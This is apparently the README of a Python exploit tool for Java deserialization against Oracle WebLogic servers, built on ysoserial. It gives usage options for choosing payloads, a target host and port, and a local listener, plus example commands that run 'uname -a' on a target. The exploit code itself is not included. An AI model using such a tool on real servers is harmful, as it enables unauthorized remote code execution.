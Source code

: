 # JavaUnserializeWeblogic v1.0

Coded By Joel Noguera - @niemand_sec
- Based on https://github.com/foxglovesec/JavaUnserializeExploits/blob/master/weblogic.py

- Payload are being generated using https://github.com/frohoff/ysoserial


# Usage

```
usage: webloic.py [-h] [-ly] [-lp] [-p PAYLOAD] [-pt PAYLOAD_TYPE] [-H HOST]
                  [-P PORT] [-LH LOCAL_HOST] [-LP LOCAL_PORT]

OPTIONS:
  -h, --help            show this help message and exit
  -ly, --list_ysoserial
                        List available ysoserial payload types
  -lp, --list_payloads  List available exploit payloads
  -p PAYLOAD, --payload PAYLOAD
                        Set custom payload to execute on server
  -pt PAYLOAD_TYPE, --payload_type PAYLOAD_TYPE
                        Set ysoserial payload type
  -H HOST, --host HOST  IP from the HOST
  -P PORT, --port PORT  Port where WebLogic is listening
  -LH LOCAL_HOST, --local_host LOCAL_HOST
                        IP from the HOST
  -LP LOCAL_PORT, --local_port LOCAL_PORT
                        Port where WebLogic is listening

Example: python webloic.py-H 127.0.0.1 -P 7001 -p 'uname -a' -pt
CommonsCollections1 python webloic.py-H 127.0.0.1 -P 7001 -p 4
```

# Requirements

Drop your ysoserial version in the same folder and modify the file name (if different) in the `line 161`

# Todo:
- Add dynamic link to ysoserial
- Add dynamic payload TLS support (--ssl option, should be simple)
- Add support to older versions 10.6.3 (test if supported first)
